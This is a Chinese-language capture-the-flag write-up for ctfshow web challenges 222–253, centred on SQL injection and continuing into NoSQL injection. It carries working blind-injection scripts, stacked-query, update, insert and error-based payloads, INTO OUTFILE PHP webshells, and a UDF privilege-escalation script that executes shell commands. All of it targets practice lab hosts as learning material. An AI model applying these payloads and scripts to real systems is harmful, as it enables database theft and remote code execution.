        #payload = f"?u=if(ascii(substr((select database()),{i},1))>{mid},sleep(0.2),1)"
        #数据库名ctfshow_web
        #payload = f"?u=if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(0.2),1)"
        #数据表名ctfshow_flaga
        #payload = f"?u=if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flaga'),{i},1))>{mid},sleep(0.2),1)"
        #字段名flagaabc
        payload = f"?u=if(ascii(substr((select flagaabc from ctfshow_flaga),{i},1))>{mid},sleep(0.2),1)"
        start = time.time()
        r = requests.get(url + payload)
        end = time.time() - start

        if end > 3:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else :
        break
print(target)
```

### web223

这道题是过滤了数字的，用true去构造就行，但是这里sleep(true)的话又得跑好久，所以直接打布尔盲注

```
?u=if(ascii(substr((select database()),{real_i},true))>{real_mid},username,false)
```

语句正确的回显

```
?u=if(ascii(substr((select%20database()),true,true))>false,username,false)
返回
{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"ctfshow","pass":"ctfshow"},{"id":"2","username":"user1","pass":"111"},{"id":"3","username":"user2","pass":"222"},{"id":"4","username":"userAUTO","pass":"passwordAUTO"}]}
```

语句错误的回显

```
?u=if(ascii(substr((select%20database()),true,true))<false,username,false)
返回
{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"ctfshow","pass":"ctfshow"}]}
```

然后写脚本就行

```python
import requests

url = "http://1207941e-aa7a-4183-86da-2417300bb4e0.challenge.ctf.show/api/"
i = 0
target = ""

def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
        return num

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2
        real_mid = createNum(mid)
        real_i = createNum(i)

        #payload = f"if(ascii(substr(database(),{real_i},true))>{real_mid},username,false)"
        #数据库名ctfshow_web
        #payload = f"if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'),{real_i},true))>{real_mid},username,false)"
        #数据表名ctfshow_flagas
        #payload = f"if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagas'),{real_i},true))>{real_mid},username,false)"
        #列名flagasabc
        payload = f"if(ascii(substr((select flagasabc from ctfshow_flagas),{real_i},true))>{real_mid},username,false)"
        params={"u":payload}
        r=requests.get(url,params=params)
        # print(r.text)
        if "passwordAUTO" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

### web224

一个登录界面


扫目录扫出来一个robots.txt文件，访问拿到/pwdreset.php，重置一下密码然后登录就行，然后就是文件上传

fuzz一下一直没fuzz出来具体的绕过

看了 wp 是文件类型注入，后台会通过读取文件内容判断文件类型，记录到数据库，对文件进行重命名。

然后我们新建一个txt文件，写入

```
C64File "');select 0x3c3f3d20706870696e666f28293b3f3e into outfile '/var/www/html/test.php';--+
```

这里的话`0x3c3f3d20706870696e666f28293b3f3e`是`<?= phpinfo();?>`的十六进制

C64File 是与 Commodore 64 相关的文件类型，前边的C64File是为了绕过类型检测，之后闭合，写入 sql 语句，进行测试一下

访问filelist.php发现这里会对我们传入的文件进行重命名




访问我们刚刚传入的文件



成功执行，然后我们进行ls



想看一下check的机制是什么样的，读取upload.php

```php
<?php
error_reporting(0);

if ($_FILES["file"]["error"] > 0) {
    die("Return Code: " . $_FILES["file"]["error"] . "<br />");
}

if ($_FILES["file"]["size"] > 10 * 1024) {
    die("文件过大: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />");
}

if (file_exists("upload/" . $_FILES["file"]["name"])) {
    echo $_FILES["file"]["name"] . " already exists. ";
} else {
    $filename = md5(md5(rand(1, 10000))) . ".zip";
    $filetype = (new finfo)->file($_FILES['file']['tmp_name']);
    
    if (preg_match("/image|png|bmap|jpg|jpeg|application|text|audio|video/i", $filetype)) {
        die("file type error");
    }
    
    $filepath = "upload/" . $filename;
    $sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('" . $filename . "','" . $filepath . "','" . $filetype . "');";
    
    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $filename);
    
    $con = mysqli_connect("localhost", "root", "root", "ctf");
    if (!$con) {
        die('Could not connect: ' . mysqli_error());
    }
    
    if (mysqli_multi_query($con, $sql)) {
        header("location:filelist.php");
    } else {
        echo "Error: " . $sql . "<br>" . mysqli_error($con);
    }
    
    mysqli_close($con);
}
?>
```

注意这里的sql语句

```php
    $sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('" . $filename . "','" . $filepath . "','" . $filetype . "');";
```

这里可以看到filename和filepath都是不可控的，唯有filetype是可控的，然后我们看filetype的赋值机制

```
$filetype = (new finfo)->file($_FILES['file']['tmp_name']);
```

- finfo类：finfo是一个类，里面有方法open,file
- finfo_open：finfo_open -- finfo::__construct — 创建新 finfo 实例，这个函数的作用是打开一个文件，通常和finfo::file(finfo_file)在一起使用,
- finfo_file:返回一个文件的信息

本地测试一下

```php
<?php
$filetype = (new finfo)->file('1.txt');
var_dump($filetype);
```

然后我们创建一个1.txt

```
C64File "');select 0x3c3f3d60746163202f666c2a603f3e into outfile '/var/www/html/file1.php';--+
```

运行php后执行结果

```
string(107) "PC64 Emulator file ""');select 0x3c3f3d60746163202f666c2a603f3e into outfile '/var/www/html/file1.php';--+""
```

可以发现这里成功插入了我们的数据，也就是说我们代码中的filetype，然后这里拼接到sql语句中造成注入

### 堆叠注入提升

### web225

查询语句

```php
  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
      
```

返回逻辑

```php
  //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set/i',$username)){
    die(json_encode($ret));
  }
```

这里的话过滤了很多啊，但是show可以用，试着看一下

```
/api/?username=-1';show databases;--+
/api/?username=-1';show tables;--+
/api/?username=-1';show tables;show columns from ctfshow_web.ctfshow_flagasa;--+
```

输出

```
data":[{"Tables_in_ctfshow_web":"ctfshow_flagasa"},{"Tables_in_ctfshow_web":"ctfshow_user"}]}
```

出来表名了，但是操作表的函数都被禁了，翻了一下可以用handler

```
?username=-1';handler `ctfshow_flagasa` open;handler `ctfshow_flagasa` read first;--+
```

这个表只有一行数据，直接就出来了

### web226

```php
  //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set|show|\(/i',$username)){
    die(json_encode($ret));
  }
```

多过滤了show和(，上面的方法不能用了，但是可以用预处理语句

这里因为过滤了查询语句，所以用十六进制编码绕过

```html
?username=-1';PREPARE test from 0x73686f7720646174616261736573;execute test;--+
ctfshow_web

?username=-1';PREPARE test from 0x73686f77207461626c6573;execute test;--+
ctfsh_ow_flagas

?username=-1';PREPARE test from 0x73656c656374202a2066726f6d2063746673685f6f775f666c61676173;execute test;--+
data":[{"id":"1","flagasb":"ctfshow{f48205fc-3fcc-42c3-9ca7-bb5ee5018ded}","info":"you get it"}]}
```

### web227

```
 //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set|show|db|\,/i',$username)){
    die(json_encode($ret));
  }
```

比之前多了一个db和逗号，但是貌似不影响我们的操作

```
?username=-1';PREPARE test from 0x73686f7720646174616261736573;execute test;--+
ctfshow_web
```

但是貌似flag不在表中，翻了一阵子都没翻到，那就看看存储过程

`Routines` 是information_schema中的一个表，存储所有存储过程和函数的定义信息

```
?username=-1';PREPARE test from 0x53454c454354202a2046524f4d20696e666f726d6174696f6e5f736368656d612e526f7574696e6573;execute test;--+
```

### web228-230

这里看不到过滤了，但是之前的方法也能用

这里放出web228的payload，其他的改一下表名就行

```
?username=-1';PREPARE test from 0x73686f7720646174616261736573;execute test;--+

?username=-1';PREPARE test from 0x73686f77207461626c6573;execute test;--+

?username=-1';PREPARE test from 0x73656c656374202a2066726f6d2063746673685f6f775f666c616761736161;execute test;--+
```

## update 注入

### web231

```
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
```

更新一条数据，参数可控，这里的话可以直接注入username，让username的内容更新为我们的sql查询语句的结果

一直以为是GET传参，结果发现是post

```
password=ctfshow',username=(select database())%23&username=nonono
数据库名：ctfshow_web

password=ctfshow',username=(select group_concat(table_name)from information_schema.tables where table_schema=database())%23&username=nonono
数据表名：banlist,ctfshow_user,flaga

password=ctfshow',username=(select group_concat(column_name)from information_schema.columns where table_name='flaga')%23&username=nonono
字段名：id,flagas,info

password=ctfshow',username=(select flagas from flaga)%23&username=nonono
```

### web232

```
$sql = "update ctfshow_user set pass = md5('{$password}') where username = '{$username}';";
```

有md5加密函数，闭合就完事

```
password=1'),username=(select database())--+&username=test
数据库名：ctfshow_web

password=1'),username=(select group_concat(table_name)from information_schema.tables where table_schema=database())--+&username=test
数据表名：banlist,ctfshow_user,flagaa

password=1'),username=(select group_concat(column_name)from information_schema.columns where table_name='flagaa')--+&username=test
字段名：id,flagass,info

password=1'),username=(select flagass from flagaa)--+&username=test
```

### web233

```
$sql = "update ctfshow_user set pass = '\' where username = '{$username}';";
```

过滤了单引号，直接转义逃逸单引号就行

```
password=\&username=,username=(select database())--+
数据库名：ctfshow_web

password=\&username=,username=(select group_concat(table_name)from information_schema.tables where table_schema=database())--+
数据表名：banlist,ctfshow_user,flag233333

password=\&username=,username=(select group_concat(column_name)from information_schema.columns where table_name='flag233333')--+
字段名：id,flagass233,info

password=\&username=,username=(select flagass233 from flag233333)--+
```

我发现过滤单引号只是在password中的，username中用单引号不影响

### web234

这里连username的单引号也过滤了，不过也可以用双引号

```
password=\&username=,username=(select group_concat(column_name)from information_schema.columns where table_name="flag23a")--+
字段名：id,flagass23s3,info

password=\&username=,username=(select flagass23s3 from flag23a)--+
```

### web235

过滤了or和单引号，这样的话information_schema库就用不了了，打无列名注入

用mysql的innodb_index_stats表

```
password=\&username=,username=(select group_concat(database_name) from mysql.innodb_index_stats)--+
库名：忘记了没看到

password=\&username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())--+
表名：banlist,ctfshow_user,flag23a1
```

然后用union取别名爆数据

```
password=\&username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a)--+
```

这里需要limit限制输出，不然结果出不来

### web236

多过滤了flag，先看看表名是什么

```
password=\&username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())--+
banlist,ctfshow_user,flaga
```

但是好像在username中没有禁用flag，只是在password中禁用了

```
password=\&username=,username=(select b from (select 1,2 as b,3 union select * from flaga limit 1,1)a)--+
```

## insert 注入

### web237

```
$sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
```

这里还是一样的，不过需要结束前面的insert语句

记得需要闭合后面的括号

在添加里面传入payload

```
username=1',(select database()));#&password=
```

插入语句

```
$sql = "insert into ctfshow_user(username,pass) value('1',(select database()));#','');";
```

payload

```
username=1',(select group_concat(schema_name) from information_schema.schemata))#&password=1
库名：ctfshow_web

username=2',(select group_concat(table_name) from information_schema.tables where table_schema=database()))#&password=1
表名：banlist,ctfshow_user,flag

username=3',(select group_concat(column_name) from information_schema.columns where table_name='flag'))#&password=1
字段名：id,flagass23s3,info

username=4',(select flagass23s3 from flag))#&password=1
```

需要注意的是，insert只是插入数据的，不能覆盖数据，所以我们每次注入的结果得重新构造username的名字才能进行下一次插入

### web238

过滤了空格，用空格绕过就行

```
username=1',(select(database())))#&password=1
库名：ctfshow_web

username=2',(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))#&password=1
表名：banlist,ctfshow_user,flagb

username=3',(select(group_concat(column_name))from(information_schema.columns)where(table_name='flagb')))#&password=1
字段名：id,flagass23s3,info

username=4',(select(flag)from(flagb)))#&password=1
```

### web239

```
过滤空格 or 
```

一样的，用其他的库去爆

库名还是ctfshow_web

```
username=2',(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name=database())))#&password=1
表名：banlist,ctfshow_user,flagbb
```

然后union取别名爆字段

```
username=3',(select(b)from(select(1),(2)as(b),(3)union(select(flagbb)limit(0),(1)))a))#&password=1
```

好奇怪取别名打不通，直接爆flag试试

```
username=3',(select(group_concat(flag))from(ctfshow_web.flagbb)))#&password=1
```

### web240

```
过滤空格 or sys mysql
```

断绝路了，那就直接爆表名吧，根据题目hint

```
Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写
```

写个脚本输出全部的组合

```python
def generate_all_ab_combinations(length=5):
    """
    生成由 'a' 和 'b' 组成的所有可能组合的字符串。
    :param length: 字符串的长度，默认为 5
    :return: 所有组合的列表
    """
    from itertools import product

    # 生成所有可能的组合
    combinations = [''.join(comb) for comb in product('ab', repeat=length)]
    return combinations


# 生成所有五位组合
all_combinations = generate_all_ab_combinations()

# 将结果写入文件
with open('for5.txt', 'w') as file:
    for comb in all_combinations:
        file.write(comb + '\n')

print("所有组合已写入文件 'for5.txt'")
```

然后爆破

```python
import requests

url = "http://66eef819-a9cc-4007-8627-a7cdabdbc269.challenge.ctf.show/api/insert.php"
content = ""
with open('for5.txt','r') as file:
    for line in file:
        content = line.strip()
        payload = f"flag{content}"
        data = {
            "username" : f"1',(select(flag)from({payload})))#",
            "password" : '1',
        }
        #print(data)
        r = requests.post(url=url, data=data)
```

当然也可以直接打

```python
#by baozongwi
import requests

url="http://66eef819-a9cc-4007-8627-a7cdabdbc269.challenge.ctf.show/api/insert.php"

for a1 in "ab":
    for a2 in "ab":
        for a3 in "ab":
            for a4 in "ab":
                for a5 in "ab":
                    payload='flag'+a1+a2+a3+a4+a5
                    data={
                        'username':f"1',(select(flag)from({payload})))#",
                        'password':'1'
                    }
                    r=requests.post(url=url,data=data)
```

最后刷新一下页面看看添加的结果就行

## delete 注入

### web241

```
//删除记录
  $sql = "delete from  ctfshow_user where id = {$id}";
```

路由是/api/delete.php，POST参数的id

因为delete本身不会返回结果，所以我们打时间盲注

```
id=sleep(0.15)
```

延迟差不多3s左右，直接写脚本

```python
import requests
import time

url = "http://4450a879-5ff0-4c75-b503-1f6341f95494.challenge.ctf.show/api/delete.php"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2
        #payload = f"if(ascii(substr((select database()),{i},1))>{mid},sleep(0.15),0)#"
        #payload = f"if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(0.15),0)#"
        #payload = f"if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flag'),{i},1))>{mid},sleep(0.15),0)#"
        payload = f"if(ascii(substr((select flag from flag),{i},1))>{mid},sleep(0.15),0)#"

        data = {
            "id" : payload,
        }
        print(data)

        start = time.time()
        r = requests.post(url, data=data)
        end = time.time() - start

        if end > 2 :
            head = mid + 1
        else :
            tail = mid

    if head != 32 :
        target += chr(head)
        print(target)
    else:
        break
print(target)
```

## file模块

### web242

```
//备份表
  $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
```

写入文件，路由是/api/dump.php

用`lines terminated by `或者`lines starting by `或者`fields terminated by `写入

```
filename=1.php' lines terminated by '<?php phpinfo();?>';#
filename=1.php' lines starting by '<?php phpinfo();?>';#
filename=1.php' fields terminated by '<?php phpinfo();?>';#
```

然后写🐎访问/dump/shell.php就行

```
1=system('cat /flag.here');
```

### web243

```
//过滤了php
```

跟文件上传一样打

看一下中间件nginx/1.20.1

先传一个1.txt文件

```
filename=1.txt' lines terminated by '<?= eval($_POST[1]); ?>'#
```

传`.user.ini`文件

然后访问/dump并RCE

```
1=system("cat /f*");
```

因为`.user.ini文件`会将1.txt包含道服务器默认的php文件中例如index.php，并且我们访问/dump的话也是会自动导向默认的php文件，所以直接访问/dump就行

## 报错注入

### web244

报错注入开始，可以用`updatexml\extractvalue`打xpath报错注入

```
//备份表
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
```

payload

```
/api/?id=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
回显~ctfshow_web~

/api/?id=1' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1)--+
回显~banlist,ctfshow_flag,ctfshow_us

/api/?id=1' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flag'),0x7e),1)--+
回显~id,flag,info~
```

后面发现无法全部显示，换成left和right去分别输出吧

```
/api/?id=1' or updatexml(1,concat(0x7e,left((select flag from ctfshow_flag),30),0x7e),1)--+
~ctfshow{ee4ca922-a90b-4041-bf5~

/api/?id=1' or updatexml(1,concat(0x7e,right((select flag from ctfshow_flag),30),0x7e),1)--+
~2-a90b-4041-bf53-f5a23fa9d0a6}~
```

拼接后就是

```
ctfshow{ee4ca922-a90b-4041-bf53-f5a23fa9d0a6}
```

### web245

过滤`updatexml`那就用另一个`extractvalue`呗

```
/api/?id=1' or extractvalue(1,concat(0x7e,(select version())))--+
```

回显

```
~10.3.18-MariaDB
```

那直接打就行

```
/api/?id=1' or extractvalue(1,concat(0x7e,(select database())))--+
回显~ctfshow_web

/api/?id=1' or extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())))--+
回显~banlist,ctfshow_flagsa,ctfshow_

/api/?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagsa')))--+
回显~id,flag1,info

/api/?id=1' or extractvalue(1,concat(0x7e,left((select flag1 from ctfshow_flagsa),30)))--+
/api/?id=1' or extractvalue(1,concat(0x7e,right((select flag1 from ctfshow_flagsa),30)))--+
```

### web246

```
 过滤updatexml extractvalue
```

xpath报错走不了了，用group by 报错注入

floor(rand(0)*2) 产生的随机数的**前六位** 一定是 “011011”

然后我们的payload就是

```
/api/?id=1' union select count(*),2,concat((select database()),0x7e,floor(rand(0)*2))as a from information_schema.tables group by a--+
回显ctfshow_web~1
```

后面一直没成功，我以为是概率问题，结果发现是有限制输出长度

用切片函数去分段输出

```
/api/?id=1' union select 1,count(*),concat(left((select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),30),0x7e,floor(rand(0)*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(left((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flags'),30),0x7e,floor(rand(0)*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(left((select flag2 from ctfshow_flags),30),0x7e,floor(rand(0)*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(right((select flag2 from ctfshow_flags),30),0x7e,floor(rand(0)*2))a from information_schema.tables group by a--+
```

### web247

```
过滤updatexml extractvalue floor
```

说明上面的是预期解，我们继续用别的方法

```
ceil()-向上取整函数
ceil(x) 返回不小于 x 的最小整数，即向上取整。
例如，ceil(3.14) 返回 4。

round() - 四舍五入函数
round(x) 返回最接近 x 的整数，如果有两个整数与 x 距离相等，则返回偶数的整数。
例如，round(3.6) 返回 4，round(3.5) 返回 4，round(3.4) 返回 3。
```

payload

```
/api/?id=1' union select count(*),2,concat((select database()),0x7e,round(rand(0)*2))as a from information_schema.tables group by a--+

/api/?id=1' union select count(*),2,concat((select database()),0x7e,ceil(rand(0)*2))as a from information_schema.tables group by a--+

回显ctfshow_web~1

/api/?id=1' union select 1,count(*),concat(0x7e,left((select group_concat(table_name)from information_schema.tables where table_schema=database()),30),0x7e,round(rand(0)*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(0x7e,left((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagsa'),30),0x7e,round(rand(0)*2))a from information_schema.tables group by a--+
```

这里有一个需要注意的地方，因为爆出来的字段名是`flag?`，所以需要用反引号去括起来否则会造成解析错误

```
/api/?id=1' union select 1,count(*),concat(0x7e,left((select `flag?` from ctfshow_flagsa),30),0x7e,round(rand(0)*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(0x7e,right((select `flag?` from ctfshow_flagsa),30),0x7e,round(rand(0)*2))a from information_schema.tables group by a--+
```

## UDF注入

### web248

UDF提权

```
 $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
```

参考师傅的脚本

```python
# 参考脚本
# 环境：Linux/MariaDB
import requests

url = 'http://e0755bce-8366-435e-ae6d-acd10ff77c81.challenge.ctf.show/api/?id='
code = ''
codes = []
for i in range(0, len(code), 128):
    codes.append(code[i:min(i + 128, len(code))])

# 建临时表
sql = '''create table temp(data longblob)'''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 清空临时表
sql = '''delete from temp'''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 插入第一段数据
sql = '''insert into temp(data) values (0x{})'''.format(codes[0])
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 更新连接剩余数据
for k in range(1, len(codes)):
    sql = '''update temp set data = concat(data,0x{})'''.format(codes[k])
    payload = '''0';{};-- A'''.format(sql)
    requests.get(url + payload)

# 10.3.18-MariaDB
# 写入so文件
sql = '''select data from temp into dumpfile '/usr/lib/mariadb/plugin/udf.so\''''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 引入自定义函数
sql = '''create function sys_eval returns string soname 'udf.so\''''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 命令执行，结果更新到界面
sql = '''update ctfshow_user set pass=(select sys_eval('cat /flag.her?'))'''
payload = '''0';{};-- A'''.format(sql)
requests.get(url + payload)

# 查看结果
r = requests.get(url[:-4] + '?page=1&limit=10')
print(r.text)

```

## nosql注入

### web249

```
//无
$user = $memcache->get($id);
```

无过滤的nosql，是使用了memcache类中的get方法去返回数据的



当 `get()` 接收到一个数组时，它会尝试获取数组中所有元素对应的键。

所以这里直接用数组绕过

```
?id[]=flag
```

### web250

首先看下查询语句和返回逻辑

```
sql语句

  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

这里的用的MongoDB\Driver\Manager::executeQuery方法去进行执行数据库查询的

如果返回数据大于0的话就会显示登录成功，但是这里的话我们是不知道具体的数据有哪些的

这里的话可以用操作符去进行重言式注入

在mongodb中，要求的查询语句是json格式，如`{"username": "admin", "password": "admin"}`，在php中，json就是数组，也就是`Array('username'=> 'admin', 'password'=> 'admin')`，同时MongoDB要求的json格式中，是可以利用操作符进行条件查询的，例如如这样的json: `{"username": "admin", "password": {"$regex": '^abc$'}}`，会匹配密码abc，也就是说，如果键对应的值是一个字符串，那么就相当于条件等于，只不过省去了json，如果键对应的值是json对象，就代表是条件查询

```
$data = array("username" => "admin", "password" => array("\$ne" => 1));测一下
```

查询我们的username为admin但password不为1的内容

所以我们的payload

注入点在/api/中post传参

```
username=admin&password[$ne]=1
```

通过构造 `password[$ne]=1`，可以绕过对 `password` 字段的精确匹配，只要 `password` 不等于 `1`，查询就会成功。

### web251

也是无过滤，继续上次的payload，但是发现用户为admin的password不是flag，看看非admin用户

```
username[$ne]=admin&password[$ne]=1
```

发现一个flag用户密码为flag

### web252

sql语句变了

```
 //sql
  db.ctfshow_user.find({username:'$username',password:'$password'}).pretty()
```

这个的话就是MongoDB的查询文档语句了

用上题的payload发现出来一个admin1

```
username[$ne]=1&password[$regex]=ctfshow{
```

这里的话用regex去匹配密码为`ctfshow{`的结果

还有其他几个payload

```
username[$regex]=^[^admin]&password[$ne]=1
```

### web253

传入

```
username[$ne]=1&password[$ne]=1
```

发现显示查询成功但是并没有回显，只能打盲注了，但是这里不知道username是什么，先爆一下username

```python
import requests
import string
table = string.digits+string.ascii_lowercase+string.ascii_uppercase+'_{}-,'

url = "http://3a2976ee-9b69-4dae-a8cb-44a6906cacef.challenge.ctf.show/api/"
target = ""

for i in range(100):
    for j in table:
        temp_target = target + j
        data = {
            "username[$regex]": f"^[^admin]{temp_target}.*$",
            "password[$ne]": 1,
        }
        r = requests.post(url, data=data)
        if r"\u767b\u9646\u6210\u529f" in r.text:
            target += j
            print(target)
//ql_flag
```

这里的话会查出开头不是admin的其他用户名，然后根据这个用户名爆flag

```python
import requests
import string
table = string.digits+string.ascii_lowercase+string.ascii_uppercase+'_{}-,'

url = "http://3a2976ee-9b69-4dae-a8cb-44a6906cacef.challenge.ctf.show/api/"
target = ""

for i in range(100):
    for j in table:
        temp_target = target + j
        data1 = {
            "username[$regex]": f"^[^admin]{temp_target}.*$",
            "password[$ne]": 1,
        }
        #r = requests.post(url, data=data1)
        payload2 = f'^{temp_target}.*$'
        data2 = {
            'username[$regex]': '^[^admin]ql_flag',
            'password[$regex]': payload2
        }
        r = requests.post(url, data=data2)
        if r"\u767b\u9646\u6210\u529f" in r.text:
            target += j
            print(target)

```

## 总结

其实这次也算第二次做了，之前只是做了一半，这次重新开始做，但总体的速度还是不错的，整个花了四天左右去做完了，虽然题不多但是含金量真的挺高的，学到了很多注入的方法和绕过手法

特别是感觉到这次做的时候比上次做收获更大，学到了更多的东西，对sql的理解也更透彻了一些
